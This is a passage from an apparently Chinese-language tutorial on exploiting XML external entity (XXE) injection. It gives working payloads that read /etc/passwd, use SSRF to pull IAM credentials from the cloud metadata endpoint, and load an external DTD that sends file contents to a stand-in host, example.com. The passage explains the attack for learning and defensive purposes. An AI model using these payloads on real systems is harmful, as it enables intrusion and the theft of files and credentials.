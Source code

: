 - XML 解析器配置为自动加载外部 DTD（文档类型定义，参见LIBXML_DTDLOAD  
标志）  
  
这三个条件都有助于 XXE 攻击。发送如下所示的恶意负载，我们就能轻松加载我们在外部实体 ( xxe  
) 中指定的本地文件：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [  <!ENTITY xxe SYSTEM "file:///etc/passwd">]><data>    <post>        <post_title>&xxe;</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  
![img](data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHdpZHRoPSIxOTIwIiBoZWlnaHQ9Ijg1MyI+PC9zdmc+)![Exploiting a simple XML external entity (XXE) injection vulnerability](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMFRFPRJX98ia00XWgcpicuk2tOxmIick1BP6zJ2HsDFeMxMBL5tmNQwZX8ajN2bDYRdNy8YsUdJaW8Nw/640?wx_fmt=png&from=appmsg "")  
  
  
利用简单的 XML 外部实体 (XXE) 注入漏洞  
### XXE 到 SSRF  
  
类似地，我们不仅可以声明本地文件的路径，还可以包含任意主机的 URL 来执行服务器端请求伪造攻击并获取响应。  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [  <!ENTITY ssrf SYSTEM "https://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]><data>    <post>        <post_title>&ssrf;</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  
当然，像上面提到的这样容易受到简单 XXE 注入漏洞攻击的应用程序组件非常少见。尤其是随着 Web 开发人员安全意识的提高，以及旨在主动缓解 XXE 等危险注入攻击的新原生安全功能的出现。  
  
让我们看一些更高级的例子。  
  
**提示！在本例中，我们通过反射整个用户输入数据对象简化了 XXE 攻击。在实际场景中，您更有可能尝试注入不同的参数并观察响应变化。**  
## 利用高级XXE漏洞  
### 利用外部 DTD 来利用 XXE  
  
在某些情况下，你会遇到一些目标会过滤掉file://  
协议，将其替换为空值或完全阻止它。为了绕过这种情况，我们可以利用 XML 中的一个特殊功能——文档类型定义 (DTD)。  
  
DTD 本质上是一个文件，它指定了我们在恶意 XML 结构中使用的实体。现在，我们不用像之前那样在本地声明它，然后让安全过滤器移除我们的file://  
协议。我们可以在外部文件中声明 DTD，从而完全绕过过滤。  
  
假设我们的服务器上托管了以下文档类型定义（DTD）文件：  
```
<!ENTITY % hostname SYSTEM "file:///etc/hostname"><!ENTITY % e "<!ENTITY &#x25; xxe SYSTEM 'http://example.com/?c=%hostname;'>">%e;%xxe;
```  
  
我们可以以一种方式制作我们的 XXE 有效载荷，使易受攻击的应用程序连接到我们的服务器，加载我们的恶意 DTD 文件，并执行其内容：  
```
<!DOCTYPE data [  <!ENTITY % xxe SYSTEM "https://example.com/xxe.dtd"> %xxe;]><data>    <post>        <post_title>...</post_title>        <post_desc>...</post_desc>    </post></data>
```  
  
使用这种方法，我们不再需要file://  
向易受攻击的服务器指定被阻止的协议，同时仍然能够泄露内部文件的内容！  
### 利用参数实体进行盲 XXE  
  
一些开发人员尝试采取主动措施来抵御 XXE 攻击，并尝试从用户输入中剥离实体。众所周知，XML 实体（相当于变量）的声明和使用格式如下：  
```
<!DOCTYPE root [  <!ENTITY name "This text will replace &name; when used">]><root>&name;</root>
```  
  